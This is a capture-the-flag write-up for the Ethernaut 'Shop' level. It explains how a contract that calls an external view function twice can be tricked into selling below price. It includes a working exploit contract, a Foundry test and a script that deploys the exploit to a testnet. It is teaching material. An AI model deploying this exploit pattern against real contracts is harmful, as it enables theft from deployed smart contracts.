 ## 👾 21. Shop

<br>


### tl; dr

<br>

* in this challenge we explore restrictions of `view` functions through an `interface`, similarly to level `11` for `Elevator`.
  - now, the goal is to find a way to buy items from a `Shop` contract for a lower price when compared to sold items.

<br>

* remember that a `view` function **[cannot modify the state of the contract](https://docs.soliditylang.org/en/v0.8.15/contracts.html#view-functions)**. 
  - for instance, it cannot write to state variables, create other contracts, emit events, send ether with `call()`, use any low-level calls, use `selfdestruct()`, call functions that `pure` or `view`, or use inline assembly with certain opcodes.


<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/2032b1e7-77f6-4481-8037-54031ebcb435">
</p>



<br>

```solidity
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```


<br>

---

### discussion

<br>

* the first part of this contract is the `interface Buyer` that defines as `external view` function, `price()`, representing the amount of `wei` a `Buyer` must pay:
<br>

```solidity
interface Buyer {
  function price() external view returns (uint);
}
```

<br>

* then, in the `Shop` contract, we have two state variables:

<br>

```solidity
uint public price = 100;
bool public isSold;
```

<br>

* and a `public` function `buy()`, where the `price()` is being called twice. 
  - this is our vulnerability, as one should never trust external inputs (*e.g.,* coming from the `interface` implementation):

<br>

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```

<br>

* in other words, `Shop` expects `Buyer` to return the price it is willing to pay to buy the item, believing that the price would not change the second time it called, as it is a `view` function.
<br>

* we will use this as our exploit, querying the value of `isSold()` and returning a different result based on our needs:
  - the first time `price()` is called, it returns `>100` to enter the loop.
  - then, the second time, it can return anything lower.


----

### solution

<br>

* we craft the following exploit at `src/21/ShopExploit.sol`:

<br>

```solidity
contract ShopExploit is Buyer {

    Shop private level;

    function price() external view returns (uint256) {
        return level.isSold() ? 0 : 1337;
    }

    function run(Shop _level) public {
        level = _level;
        level.buy();
    }
}
```


<br>

* check `test/21.Shop.t.sol` for testing this solution::

<br>

```solidity
contract ShopTest is Test {

    Shop public level = new Shop();

    address instance = payable(vm.addr(0x10053)); 
    address hacker = vm.addr(0x1337); 

    function setUp() public {
        vm.prank(instance);
    }

    function testShopHack() public {

        vm.startPrank(hacker);
        console.log(level.isSold());
        ShopExploit exploit = new ShopExploit();
        exploit.run(level);
        assert(level.isSold());
        vm.stopPrank();
        
    }
}
```

<br>

* running:

<br>

```shell
> forge test --match-contract ShopTest -vvvv    
```



<br>

* then, submit the solution with `script/21/Shop.s.sol`:

<br>

```solidity
contract Exploit is Script {

        Shop level = Shop(instance); 
        address instance = vm.envAddress("INSTANCE_LEVEL21");
        uint256 hacker = vm.envUint("PRIVATE_KEY");   
        address deployer = vm.rememberKey(hacker);   
        
        function run() external {
            vm.startBroadcast(deployer);
            ShopExploit exploit = new ShopExploit();
            exploit.run(level);
            vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/21/Shop.s.sol --broadcast -vvvv --rpc-url sepolia
```



<br>

----


### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



